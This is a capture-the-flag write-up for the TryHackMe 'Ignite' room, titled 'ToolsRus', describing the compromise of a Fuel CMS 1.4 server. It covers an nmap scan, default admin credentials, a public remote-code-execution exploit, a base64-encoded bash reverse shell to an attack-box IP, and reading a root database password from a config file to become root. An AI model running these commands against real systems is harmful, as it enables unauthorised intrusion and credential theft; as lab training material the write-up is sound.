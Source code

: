 # THM: ToolsRus

| Stat | Value |
| ---------- | -------------------------------------------- |
| Image | <img src="../../images/write_ups/try_hack_me/ignite/ignite.png" alt="Ignite" width="90"/> |
| Room | Ignite |
| URL | https://tryhackme.com/room/ignite |
| Difficulty | Easy |

## Concepts/Tools Used

- [netcat](../../tools/netcat.md)
- [nmap](../../tools/nmap.md)
- [Searchsploit](../../tools/searchsploit.md)
- Base64 Encoding

## Room Description

A new start-up has a few issues with their web server.

## Process

Once the machine starts up I save the machine's ip address to my host file so that I can type `target.thm` instead of an ip address.

I run nmap to see what ports are open:

```bash
$ nmap -T4 -n -sC -sV -Pn -p- target.thm
Starting Nmap 7.80 ( https://nmap.org ) at 2025-06-17 06:00 BST
Nmap scan report for target.thm (10.10.56.91)
Host is up (0.00014s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS
MAC Address: 02:4F:B3:1C:25:11 (Unknown)
```

I notice that an http server is running on port 80 and so I take a look at the site with Firefox.

![Ignite Homepage](../../images/write_ups/try_hack_me/ignite/homepage.png)

The site is using the Fuel CMS version 1.4 software. Near the bottom it mentions that the default username and password are admin:admin.

The nmap scan above mentioned the /fuel/ directory. When I browse that page I notice that it is a login page for the Fuel CMS.

![Fuel CMS Login Page](../../images/write_ups/try_hack_me/ignite/login.png)

I use the credentials found earlier, and I am in.

## Getting a Foothold

I looked around for a place where I could inject PHP code and run a remote shell. I was unable to find anything and so I ran the following command to see if I could find an exploit in Fuel CMS:

```bash
$ searchsploit fuel cms 1.4
---------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                              |  Path
---------------------------------------------------------------------------- ---------------------------------
fuel CMS 1.4.1 - Remote Code Execution (1)                                  | linux/webapps/47138.py
Fuel CMS 1.4.1 - Remote Code Execution (2)                                  | php/webapps/49487.rb
Fuel CMS 1.4.1 - Remote Code Execution (3)                                  | php/webapps/50477.py
Fuel CMS 1.4.13 - 'col' Blind SQL Injection (Authenticated)                 | php/webapps/50523.txt
Fuel CMS 1.4.7 - 'col' SQL Injection (Authenticated)                        | php/webapps/48741.txt
Fuel CMS 1.4.8 - 'fuel_replace_id' SQL Injection (Authenticated)            | php/webapps/48778.txt
---------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

I start at the top of the list with 47138 and copy it to my current directory using the following command:

```bash
$ searchsploit -m 47138
```

I look at the script and see that it is for python 2 (python3 requires the print function to have parentheses around what gets printed). I make two alterations to the script:

- The url variable on line 14 gets updated from "http://127.0.0.1:8881" to "http://target.thm".
- The proxy variable on line 25 gets updated from {"http":"http://127.0.0.1:8080"} to {}.

I run the script with the following command:

```bash
$ python 47138.py
cmd:whoami
systemwww-data

<div style="...
```

I now have remote code execution on the machine. Now I run a few commands to get the contents of the flag.txt file:

```bash
cmd:ls -lha /home
systemtotal 12K
drwxr-xr-x  3 root     root     4.0K Jul 26  2019 .
drwxr-xr-x 24 root     root     4.0K Jul 26  2019 ..
drwx--x--x  2 www-data www-data 4.0K Jul 26  2019 www-data
```

I check what files are in the /home/www-data directory:

```bash
cmd:ls -lha /home/www-data
systemtotal 12K
drwx--x--x 2 www-data www-data 4.0K Jul 26  2019 .
drwxr-xr-x 3 root     root     4.0K Jul 26  2019 ..
-rw-r--r-- 1 root     root       34 Jul 26  2019 flag.txt
```

I get the contents of the flag.txt file:

```bash
cmd:cat /home/www-data/flag.txt
systemREDACTED
```

I don't want to keep running commands like this, I need a reverse shell. I setup a listener on my machine in a new terminal with the following command:

```bash
$ nc -lnvp 4444
```

I tried to get a reverse shell using commands [found here](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

Each time I ran the commands on the site above, none of them worked. I have used those commands before and I know they are good commands. I remembered that sometimes you need deliver the payload a different way to actually run it.

With that in mind, I base64 encoded the payload so that it could transfer properly. Here is the command I used to encode it:

```bash
$ echo "bash -i >& /dev/tcp/<attack_box_ip>/4444 0>&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC88YXR0YWNrX2JveF9pcD4vNDQ0NCAwPiYxCg==
```

I am using a command that will not work because the attack_box_ip must be filled in. I took the output of the previous command and ran:

```bash
$ echo "YmFzaCAtaSA+JiAvZGV2L3RjcC88YXR0YWNrX2JveF9pcD4vNDQ0NCAwPiYxCg==" | base64 -d | bash
```

I have a shell. I'm in!

## Privilege Escalation

I ran my [usual list of commands](../../README.md#linux-privilege-escalation). This didn't yield anything.

I remembered that the homepage of Fuel CMS mentioned where the configuration files were stored. I ran the following command:

```bash
$ cat /var/www/html/fuel/application/config/database.php
```

The output had some interesting lines:

```bash
...
$db['default'] = array(
	'dsn'	=> '',
	'hostname' => 'localhost',
	'username' => 'root',
	'password' => REDACTED,
	'database' => 'fuel_schema',
...
```

Since the username is root. I tried to log in as the root user with that password:

```bash
$ su root
```

It worked. I'm in! The cursor changed to the # character to let me know that I was root. I ran the following to get the flag:

```bash
# cat /root/root.txt
REDACTED
```
